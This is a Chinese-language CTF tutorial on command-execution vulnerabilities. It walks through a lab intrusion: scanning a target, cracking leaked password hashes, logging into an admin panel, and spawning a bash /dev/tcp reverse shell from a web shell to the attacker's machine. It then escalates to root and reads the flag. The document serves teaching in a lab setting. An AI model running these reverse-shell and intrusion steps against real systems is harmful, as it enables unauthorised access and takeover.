# CTF夺旗赛教程：P20：命令执行漏洞实战

在本节课中，我们将学习命令执行漏洞的原理，并通过一个完整的实战案例，从信息收集、漏洞发现、利用到最终提权获取Flag，掌握CTF比赛中命令执行类题目的解题思路。

## 命令执行漏洞原理



上一节我们介绍了Web安全的基础概念，本节中我们来看看命令执行漏洞是如何产生的。



当应用程序需要调用外部程序来处理内容时，会使用一些执行系统命令的函数。例如，在PHP语言中，有 `system()`、`exec()`、`shell_exec()` 等函数。

如果用户可以控制这些命令执行函数中的参数，并且应用程序没有对用户的输入进行严格的过滤，那么用户输入的内容将作为系统命令的一部分被拼接到命令行中执行。这就导致了命令执行攻击。

**核心概念公式**：
```
漏洞产生条件：用户可控输入 + 未严格过滤 + 系统命令执行函数 = 命令执行漏洞
```

## 实验环境搭建

在开始实战之前，我们需要明确攻击目标和环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：一个存在漏洞的Linux系统，IP地址为 `192.168.253.18`。

我们的最终目标是获取靶机上存放的Flag值。







## 信息收集与探测





进行任何渗透测试的第一步都是信息收集。以下是信息收集的步骤：





我们首先使用 `ping` 命令测试与靶机的网络连通性。
```bash
ping 192.168.253.18
```



接下来，我们使用一个图形化的集成信息收集工具 `Sparta` 来对靶机进行全面的探测。该工具会自动调用 Nmap、Nikto 等多种命令行工具，并将结果集中展示。

1.  打开Sparta工具。
2.  将靶机IP `192.168.253.18` 添加到扫描目标中。
3.  工具会自动开始扫描，并展示开放的端口和服务信息。

扫描结果显示，靶机开放了 **23端口（Telnet）**、**80端口（HTTP）** 和 **8080端口（HTTP）**。其中80和8080端口运行着基于 **Python 2.7.10** 和 **Django框架** 的Web服务。

## Web应用深入分析





在获得初步信息后，我们需要对Web服务进行深入分析。



我们首先通过浏览器访问靶机的80端口。同时，利用Sparta工具对80端口进行更细致的扫描，例如使用Nikto扫描敏感文件或目录。

以下是Nikto扫描发现的部分关键信息：
*   发现可能存在敏感目录 `/dev`。
*   发现后台登录目录 `/admin`。
*   站点由Django框架开发，因此文件后缀可能为 `.py`。

我们使用 `DirBuster` 工具对网站目录进行暴力破解，以发现更多隐藏的页面或文件。
1.  在Sparta中针对80端口启动DirBuster。
2.  选择Kali自带的字典文件（如 `directory-list-1.0.txt`）。
3.  将文件扩展名设置为 `.py`（因为目标使用Django）。
4.  开始扫描，并观察结果。

扫描过程中，我们发现了 `/admin` 目录，访问后是一个登录界面。同时，访问之前发现的 `/dev` 目录，页面显示了一个“Web Shell”的链接，但点击后提示需要服务器认证。





## 漏洞发现与利用

面对登录界面，我们尝试寻找可用的凭据。

我们查看了登录页面和 `/dev` 页面的源代码。在 `/dev` 页面的HTML注释中，发现了一系列哈希值（Hash）。这些哈希值很可能是用户名或密码的加密形式。

我们将这些哈希值保存到本地文件，然后使用在线哈希破解网站（如 `hashes.com`）进行破解。成功破解出两对明文：
*   `nick` -> `b0ss`
*   `chris` -> `bglover`

使用破解得到的用户名 `nick` 和密码 `b0ss`，我们成功登录了 `/admin` 后台管理系统。



## 获取Web Shell与权限提升





登录后台后，我们再次访问 `/dev` 目录下的“Web Shell”链接，此时可以正常访问。该页面提供了一个受限的命令执行接口。



为了获得一个完整的反向Shell，我们执行以下操作：



1.  **在攻击机（Kali）上开启监听**：
    ```bash
    nc -nlvp 4444
    ```
    这条命令表示在本地4444端口启动一个Netcat监听器。





2.  **在靶场的Web Shell中执行反弹Shell命令**：
    在命令输入框中，输入以下命令（假设攻击机IP为 `192.168.253.12`）：
    ```bash
    bash -c ‘bash -i >& /dev/tcp/192.168.253.12/4444 0>&1’
    ```
    点击执行后，攻击机的Netcat终端会接收到一个来自靶机的Shell连接。



3.  **升级Shell为完全交互式终端**：
    在获得的Shell中，输入以下Python代码来升级终端：
    ```python
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```
    现在，我们获得了一个功能更完善的Bash Shell。通过 `id` 命令查看，当前用户并非root。

## 权限提升（提权）与获取Flag

我们获得了普通用户Shell，下一步是提升到root权限。

我们首先在系统中寻找敏感文件或配置。通过 `ls -la` 命令查看隐藏文件，在用户家目录下发现了一个隐藏的管理员目录 `.admin`。

进入该目录后，发现一个名为 `customApp` 的可执行文件。使用 `strings` 命令查看该文件中的可打印字符串：
```bash
strings customApp
```
在输出信息中，发现了一段提示文字，暗示了root密码的组成方式。通过分析这段文字，我们提取并组合出了root密码。





使用提取的密码切换到root用户：
```bash
su root
# 输入破解得到的密码
```
执行 `id` 命令确认，用户ID变为0，提权成功。



最后，在root目录下找到Flag文件：
```bash
cd /root
ls
cat flag.txt
```
成功读取Flag内容，完成挑战。



## 总结与拓展

本节课中我们一起学习了命令执行漏洞的完整利用链：
1.  **信息收集**：使用工具扫描目标，发现开放服务和敏感目录。
2.  **漏洞发现**：通过源代码分析、目录爆破等手段发现潜在漏洞点（如哈希泄露）。
3.  **漏洞利用**：破解哈希获得凭据，登录后台，利用Web Shell执行命令。
4.  **建立连接**：通过命令执行漏洞反弹Shell，获得远程访问权限。
5.  **权限提升**：在系统内寻找配置错误或敏感文件，提取密码，提升至root权限。
6.  **获取目标**：找到并读取Flag文件。



在实际CTF比赛或安全评估中，命令执行漏洞往往伴随着各种过滤和限制（如禁用某些字符、命令），选手需要灵活运用编码、拼接、使用替代命令等技巧进行绕过。掌握信息收集和循序渐进的测试思路，是解决此类问题的关键。